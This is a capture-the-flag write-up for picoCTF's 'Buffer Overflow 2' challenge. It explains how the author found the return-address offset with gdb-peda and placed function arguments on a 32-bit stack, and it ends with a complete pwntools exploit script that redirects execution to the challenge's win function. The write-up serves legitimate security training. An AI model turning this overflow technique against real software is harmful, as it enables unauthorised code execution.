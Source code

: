 # CTF Write-Up: [Buffer Overflow 2][Binary Exploitation]

## Description
>Control the return address and arguments
This time you'll need to control the arguments to the function you return to!


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{argum3nt5_4_d4yZ_59cd5643}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- gdb
- pwntools

## Write-Up

### Preparatory Phase
First ran `checksec vuln` on the binary in order to determine the architecture and what protections the file had in place. 
![alt text](images/image.png)
I then conducted static analysis of the given `.c` file. There was a `win` function which read the flag file. However, the flag file would only be printed if the function arguments were of a certain value namely `arg1 = 0xCAFEF00D` and `arg2 = 0xF00DF00D`.
![alt text](images/image-3.png)
I now, then used gdb to obtain the address of the `win` function. I ran the binary multiple times to ensure the address was fixed and not randomised.
![alt text](images/image-4.png)
Like with most buffer-overflow exercises, the next step was to find the offset to the `eip` register (instruction pointer on 32-bit systems). Using `gdb-peda` it can do this via the following steps. 
1. Create a pattern file via `pattern create <size> <name>`
2. Run the file under `gdb` and pass in the file as input i.e. `r < <file_name>`
3. If the file does segementation fault, obtain the memory address where it states `Invalid $PC address: <address>` as below
![alt text](images/image-1.png)
4. Otherwise, if program does not segmentation fault repeat step 1 with a bigger file-size.
5. Run `pattern offset <address obtained from step 4>`, this is the offset to our instruction pointer.
![alt text](images/image-2.png)

### Attack Phase

I have a rough idea of the payload which consists of `112 bytes of junk + <address of function> + <arguments?>`. However, I need to know how arguments are passed into a function. Using `gdb` I find that the program does a `cmp` instruction on the value at `ebp + 8 bytes` and `ebp + 12 bytes.` My first attempt at a payload was `112 * "A" + <win address> + 0xcafef00d + 0xf00df00d`. I found the value `0xcafef00d` was at `ebp + 0x4`, rather than `ebp + 0x8`.
![alt text](images/image-5.png)
Therefore I padded it with 4 bytes. Now using gdb I find that it was aligned perfectly. 
![alt text](images/image-7.png)
![alt text](images/image-8.png).
Using pwntools we were able to obtain the flag:
![alt text](images/image-9.png)


### Final Solution/Payload
```py
from pwn import *

local = False
host = 'saturn.picoctf.net'
port = 61932

if local: 
    io = process('./vuln')
else:
    io = remote(host, port)

win_address = p32(0x8049296)
padding = b'B'*4
arg_1 = p32(0xCAFEF00D)
arg_2 = p32(0xF00DF00D)

payload = b'A'* 112

payload += win_address 
payload += padding
payload += arg_1
payload += arg_2

io.recv()
io.sendline(payload)
resp = io.recvall()
print(resp)
```

### Lessons Learnt
- For binary exploitation exercises being competent with gdb can go a long-way. I spent too long trying to figure out why my solution was initially not working, however upon examining with gdb I found the need to offset by 4 bytes in order for the function arguments to be utilised. 
## References
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://github.com/longld/peda


